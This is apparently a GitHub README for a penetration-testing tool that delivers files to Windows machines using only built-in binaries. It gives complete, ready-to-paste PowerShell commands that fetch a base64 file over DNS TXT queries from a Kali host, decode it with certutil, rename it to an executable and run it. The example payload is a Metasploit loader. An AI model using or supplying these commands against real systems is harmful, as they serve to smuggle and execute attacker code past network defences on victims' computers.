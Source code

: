 # Windows_File_Transfers
Repository for ways to transfer files to Windows using built in binaries

Techniques
dns_server.py
-DNS Server that base64 encodes a file and then server that file in TXT records that are availble through DNS

Usage 
./dns_server.py (FILE_TO_Serve)

-Will output command to use powershell with nslookup to transfer file, then use certutil to decode.

-file that is created on windows system is named "newFile"

-run mv newFile to newFile.exe and run

Example Usage:
KALI 

./dns_server.py /root/Downloads/Metasploit_Custom_loader/loader_64.exe

Old ZoneFile exists, removing

Powershell File Transfer, enter text below in powershell window, change CHANGEME_IP_KALI to IP address of Kali system
 
del File.txt; del newFile; $c = ""; $i = 1; while ($i -le 303){$a = nslookup -q=txt "$i.texting.com" CHANGEME_IP_KALI | Select-String -Pattern '"' | Out-String ; $b = $a.trim(); $c += $b.Replace("`"",""); $i += 1}; $c.Replace("`n","") | Out-File -Append File.txt; certutil.exe -decode .\File.txt newFile

(SNIPPED)

WINDOWS:

-Paste text from script in powershell window, changing IP:

del File.txt; del newFile; $c = ""; $i = 1; while ($i -le 303){$a = nslookup -q=txt "$i.texting.com" 172.16.6.130 | Select-String -Pattern '"' | Out-String ; $b = $a.trim(); $c += $b.Replace("`"",""); $i += 1}; $c.Replace("`n","") | Out-File -Append File.txt; certutil.exe -decode .\File.txt newFile

-Rename file

mv newFile newFile.exe

-Run File

.\newFile.exe
